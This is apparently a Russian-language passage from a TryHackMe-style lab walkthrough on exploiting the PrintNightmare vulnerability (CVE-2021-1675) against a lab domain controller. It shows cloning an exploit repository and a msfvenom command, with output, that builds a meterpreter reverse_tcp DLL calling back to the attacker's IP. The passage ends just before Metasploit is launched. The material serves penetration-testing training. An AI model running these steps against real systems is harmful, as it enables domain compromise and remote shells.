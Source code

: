 Не волнуйтесь, вы можете выполнить атаку против подключенной виртуальной машины, а не в среде вашего работодателя. 

Запустите присоединенную виртуальную машину. Через несколько минут IP вашей машины должен быть: MACHINE_IP 

Чтобы взломать контроллер домена с помощью Attack Box, используя уязвимость PrintNightmare, выполните следующие действия. 

В приведенном ниже примере выходных данных терминала жертвой являетсяMACHINE_IP ,  а злоумышленником — 192.168.0.100. 

Примечание: Как подписчик, запустите Attack Box, если вы еще этого не сделали, прежде чем продолжить. Как бесплатный 
пользователь, эта задача должна быть выполнена на вашей локальной атакующей машине.

Прежде чем продолжить, создайте на рабочем столе 2 каталога:

pn- это будет содержать эксплойт.
share- этот каталог ( /root/Desktop/share ) будет содержать вредоносную DLL , которая будет создана с помощью msfvenom. 

Загрузить CVE -2021-1675.py :

Клон CVE-2021-1675 эксплойт из GitHub
```commandline
root@attackbox:~/Desktop/pn# git clone https://github.com/tryhackme/CVE-2021-1675.git 
Cloning into 'CVE-2021-1675'...
remote: Enumerating objects: 173, done.
remote: Counting objects: 100% (173/173), done.
remote: Compressing objects: 100% (105/105), done.
remote: Total 173 (delta 62), reused 133 (delta 36), pack-reused 0
Receiving objects: 100% (173/173), 1.45 MiB | 452.00 KiB/s, done.
Resolving deltas: 100% (62/62), done.
```
Перед запуском Metasploit создайте вредоносную DLL . 

Примечание : В выходных данных терминала ниже злоумышленник — 192.168.0.100. Вам нужно будет заменить его 192.168.0.
100на IP-адрес вашего ATTACK BOX (или OpenVPN IP).

Для создания вредоносной DLL-библиотеки вы будете использовать msfvenom. 

Создать вредоносный DLL с Msfvenom
```commandline
root@attackbox:~/Desktop/pn# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f dll -o ~/Desktop/share/malicious.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 5120 bytes
Saved as: /root/Desktop/share/malicious.dll
```
Если при запуске этой команды вы видите похожий вывод, значит, вы успешно создали DLL.

Давайте запустим Metasploit .
